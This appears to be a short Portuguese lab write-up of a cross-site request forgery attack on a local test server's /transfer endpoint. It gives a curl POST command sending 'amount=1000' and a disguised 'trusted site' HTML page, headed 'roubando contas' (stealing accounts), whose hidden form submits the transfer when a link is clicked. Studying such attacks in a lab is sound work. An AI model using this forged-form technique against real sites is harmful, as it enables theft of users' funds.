  
esse comando vai executar uma chamada POST no site alvo de modo que o -X demostra qual tipo de vulnerabilidade seria e o -d define o que deve ser alterado, por fim o url alvo neste caso e o sub dominio e modificamos o id amount que esta relacionado com a tranferencia de valores do site. neste caso fizemos a trasnferencia do valor total. 

curl -X POST -d "amount=1000" http://localhost:8080/transfer

tambem usando ao inves de usar o curl de forma direta fiz um script html que faz isto em um painel


  1 <!DOCTYPE html>
  2 <html>
  3 <head>
  4         <title>site confiavel</title>
  5 </head>
  6 <body>
  7         <h2> roubando contas <h2>
  8         <form id="form" action="http://localhost:8080/transfer" method="POST">
  9         <input type="hidden" name="amount" value="1000">
 10         <a href="#" onclick=document.getElementById("form").submit()> link </a>         
 11         </form>
 12 </body>
 13 </html>
 14 

